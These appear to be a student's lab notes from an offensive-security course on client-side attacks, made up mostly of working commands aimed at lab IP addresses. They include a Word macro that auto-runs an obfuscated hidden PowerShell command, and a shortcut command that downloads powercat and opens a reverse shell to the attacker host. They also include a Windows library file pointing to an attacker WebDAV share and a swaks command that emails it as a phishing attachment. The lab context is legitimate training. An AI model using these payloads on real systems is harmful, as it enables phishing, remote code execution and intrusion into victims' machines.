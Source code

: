# client side attacks

```
gobuster dir -x pdf -u http://192.168.197.197:80 -w /usr/share/wordlists/dirb/big.txt


xfreerdp -u offsec -p lab 192.168.229.196:3389

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
    Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
    Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
    Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
    Str = Str + "ALgAxADYAOAAuADQANQAuADEAOQA0AC8AcABvAHcAZQByAGMAY"
    Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
    Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA0ACAALQBwA"
    Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
    Str = Str + "A"
    
    CreateObject("Wscript.Shell").Run Str
End Sub
```

copy file from windows to kali - set up smb server

on kali
```
mkdir smb
impacket-smbserver -smb2support smb smb
```

from windows - cmd
```
net use \\192.168.45.194\smb
copy \Users\offsec\Desktop\macro.doc \\192.168.45.194\smb
```

### windows libraries attacks
on kali
```
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
```

run it with auth disabled
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
view at http://127.0.0.1

on windows
in vscode create config.Library-ms in offsec/Desktop

create shortcut
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.194:8000/powercat.ps1');powercat -c 192.168.45.194 -p 4444 -e powershell"
```

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.194</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

get onto the host
```
cd webdav
smbclient //192.168.229.195/share -c 'put config.Library-ms'
ls -r -inc flag.txt
```

### VM 2
```
nmap 192.168.229.199
sudo nmap -p80 -sV 192.168.229.199
gobuster dir -u http://192.168.229.199:80 -w /usr/share/wordlists/dirb/big.txt -p pattern
gobuster dir -u http://192.168.229.199:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x jpg,jpeg,pdf,lnk,conf
```

inspect file to get the user's name
```
exiftool -a -u info.pdf
```

Hint
1) Start by fuzzing the webserver for some hidden files using gobuster ffuf feroxbuster etc.
2) If powercat is not working out for you then feel free to use some other ways to obtain remote code execution
3) Alternatives to powercat could be found at https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows#powershell-shells
4) Make sure you mount the correct path where you have the Webdav folder! Is it root/webdav or /home/kali/webdav?

```
xfreerdp -u offsec -p lab 192.168.229.196:3389

swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach config.Library-ms --server 192.168.229.199 --body body.txt --header "Subject: Problems" --suppress-dat
```











